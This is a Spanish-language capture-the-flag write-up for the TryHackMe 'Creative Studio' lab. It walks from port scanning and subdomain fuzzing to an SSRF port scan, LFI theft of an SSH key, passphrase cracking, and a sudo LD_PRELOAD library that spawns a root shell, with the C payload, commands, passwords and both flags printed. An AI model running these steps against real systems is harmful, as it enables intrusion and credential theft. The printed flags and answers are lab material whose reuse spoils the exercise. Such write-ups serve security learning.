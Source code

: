 # TryHackMe - Creative Studio Writeup

## 1. Escaneo 

Como primer punto, empezaremos con la fase de escaneo de puertos. Utilizaremos la herramienta `nmap`:

```bash
nmap -p- --open -n -Pn -T4 --min-rate 8000 -sVC -sS <HOST> -oN <name> -vvv
```

Podemos ver que tenemos los puertos abiertos `22/ssh` y `80/http`:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora utilizamos la herramienta `whatweb` para buscar más información:

```bash
whatweb <HOST>
```

El escaneo nos devuelve un error porque el objetivo tiene un dominio. Al ejecutar `whatweb` con el dominio, no encontramos nada relevante:

```
http://creative.thm [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@example.com,info@website.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.134.13], JQuery[3.4.1], Meta-Author[Devcrud], PasswordField, Script, Title[Creative Studio | Free Bootstrap 4.3.x template], YouTube, nginx[1.18.0]
```

Revisando el protocolo HTTP encontramos una página web:

![servidor web creativo](creativo/creativo.png)

### Enumeración de directorios

Utilizamos la herramienta `ffuf` para buscar directorios ocultos:

```bash
ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200
```

Solo encontramos el directorio oculto `assets`, pero no contiene nada relevante. Procedemos a enumerar subdominios:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm -H "HOST:FUZZ.creative.thm" -fw 6
```

Encontramos el subdominio `beta`. Lo agregamos a `/etc/hosts` y revisamos su contenido. Observamos una página en la URL `beta.creative.thm`, lo que sugiere un posible **SSRF** (Falsificación de Solicitudes del Lado del Servidor).

![SSRF](creativo/creativo2.png)

Al ingresar a `http://127.0.0.1`, nos redirige a la página principal de "Creativo". Realizaremos un ataque de fuerza bruta para encontrar posibles puertos internos con `ffuf`.

Primero, generamos una lista de puertos:

```bash
seq 65535 > puertos.txt
```

Luego, realizamos el ataque:

```bash
ffuf -w puertos.txt -u http://beta.creative.thm -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
```

Resultado:

```
80                      
1337 
```

En el puerto `1337`, encontramos un servidor oculto que tiene un **LFI (Local File Inclusion)**:

![creativo](creativo/creativo3.png)

### Explotación de LFI

Al aprovechar el LFI, encontramos un usuario llamado `saad` y accedemos a su archivo `id_rsa`:

![creativo](creativo/creativo5.png)

El archivo `id_rsa` está protegido con una contraseña. Utilizamos `ssh2john` para generar un hash y `john the ripper` para crackearlo:

```bash
ssh2john id_rsa > passwd.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
```

Obtenemos la contraseña: `sweetness`. Con esto, accedemos al servidor como `saad` mediante SSH.

### Primera Flag

Al conectarnos con `saad`, obtenemos la primera flag:

```
9a1ce90a7653d74ab98630b47b8b4a84
```

---

## 2. Escalada de privilegios

Al revisar `.bash_history`, encontramos la contraseña de `saad`:

```
saad:MyStrongestPasswordYet$4291
```

Usamos el comando `sudo -l` y descubrimos que podemos escalar privilegios utilizando `LD_PRELOAD`. Seguimos estos pasos:

1. Nos movemos a `/tmp` y creamos un archivo en C con el siguiente código:

```c
#include <stdio.h>
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { 
    unsetenv("LD_PRELOAD"); 
    setgid(0); 
    setuid(0); 
    system("/bin/sh"); 
}
```

2. Lo compilamos:

```bash
gcc -fPIC -shared -o name.so name.c -nostartfiles
```

3. Verificamos que se creó correctamente:

```bash
ls -la name.so
```

4. Ejecutamos el exploit con `ping`:

```bash
sudo LD_PRELOAD=/tmp/name.so ping
```

### Segunda Flag

Con privilegios elevados, obtenemos la flag final:

```
992bfd94b90da48634aed182aae7b99f
```

---

¡Writeup completo! 🚩

